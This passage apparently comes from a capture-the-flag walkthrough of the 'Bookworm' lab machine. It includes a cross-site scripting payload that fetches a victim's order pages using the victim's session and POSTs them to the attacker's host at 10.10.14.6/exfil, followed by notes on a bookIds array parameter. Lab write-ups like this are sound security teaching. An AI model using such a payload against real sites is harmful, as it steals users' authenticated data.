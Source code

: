 ```
Connection received on 10.10.11.215 44730
GET /order/18 HTTP/1.1
Host: 10.10.14.6
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
Accept: */*
Origin: http://bookworm.htb
Referer: http://bookworm.htb/
Accept-Encoding: gzip, deflate

```

I’ll update this to return the order pages:

```

fetch('/profile', {credentials: "include"})
.then((resp) => resp.text())
.then((resptext) => {
  var regex = /\/order\/\d+/g;
  while ((match = regex.exec(resptext)) !== null) {
    fetch(match, {credentials: "include"})
    .then((resp2) => resp2.text())
    .then((resptext2) => {
      fetch("http://10.10.14.6/exfil" + match, {
        method: "POST",
        mode: "no-cors",
        body: resptext2
      });
    });
  };
});

```

This should get each order page in the profile, fetch it, and return it to me via POST request.

After a few minutes (and a few attempts running the script), I get a connection, which gives a few pages. For example, one might look like the following page:

![image-20240116134135135](/img/image-20240116134135135.png)

The CSS doesn’t load, but that’s ok. The interesting part is the “Download e-book” link, which points to `/download/7?bookIds=9`. Some orders have more than one book, and look like this:

![image-20240116151408821](/img/image-20240116151408821.png)

The important difference here is the “Download everything link”, which leads to `/download/2?bookIds=18&bookIds=11`. It seems that the `bookIds` parameter can be a single string or (when multiple are specified) an array (I go over why this works in [Beyond Root](#query-strings-in-express).

#### Download Single
